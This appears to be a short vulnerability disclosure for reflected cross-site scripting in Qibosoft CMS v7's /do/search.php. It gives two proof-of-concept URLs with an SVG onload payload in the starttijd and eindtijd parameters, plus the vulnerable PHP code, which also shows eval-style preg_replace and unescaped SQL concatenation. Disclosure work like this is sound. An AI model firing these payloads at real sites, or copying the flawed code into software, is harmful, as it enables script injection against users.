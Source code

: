 # Qibosoft v7 -  cross Site Scripting (Vulnerability Impact version<=7,Qibosoft CMS)




The vulnerability was discovered by test the program's locally and online deployment tests.      

the <B>eindtijd</B> and <B>starttijd</B> parameters on  <B>""/do/search.php""</B> is vulnerable by cross site scripting. 

using this vulnerability an attacker can use XSS to send a malicious script to an unsuspecting user. 




### Location: 

<html>
/do/search.php

</html>



### POC: 
```
<html>
domain/do/search.php?starttijd='"--><Svg OnLoad=confirm(0)> 

domain/do/search.php?eindtijd='"--><Svg OnLoad=confirm(0)>

</html>
```


### vulnerable code: 

<html>
if($starttijd&&$eindtijd){
		$starttijd=preg_replace("/([\d]+)-([\d]+)-([\d]+) ([\d]+):([\d]+):([\d]+)/eis","mk_time('\\4','\\5', '\\6', '\\2', '\\3', '\\1')",$starttijd);
		$eindtijd=preg_replace("/([\d]+)-([\d]+)-([\d]+) ([\d]+):([\d]+):([\d]+)/eis","mk_time('\\4','\\5', '\\6', '\\2', '\\3', '\\1')",$eindtijd);
		if($starttijd<$eindtijd){
			$SQL.=" AND A.posttime>'$starttijd' AND A.posttime<'$eindtijd'";
		}else{
			showerr("时间格式不对");
		}
	}
	if($starttijd){
		$starttijd=preg_replace("/([\d]+)-([\d]+)-([\d]+) ([\d]+):([\d]+):([\d]+)/eis","mk_time('\\4','\\5', '\\6', '\\2', '\\3', '\\1')",$starttijd);
		$SQL.=" AND A.posttime>'$starttijd'";
	}
	if($eindtijd){
		$eindtijd=preg_replace("/([\d]+)-([\d]+)-([\d]+) ([\d]+):([\d]+):([\d]+)/eis","mk_time('\\4','\\5', '\\6', '\\2', '\\3', '\\1')",$eindtijd);
		$SQL.=" AND A.posttime<'$eindtijd'";
	}

</html>



### Source Code:
http://down.qibosoft.com/down.php?v=v7
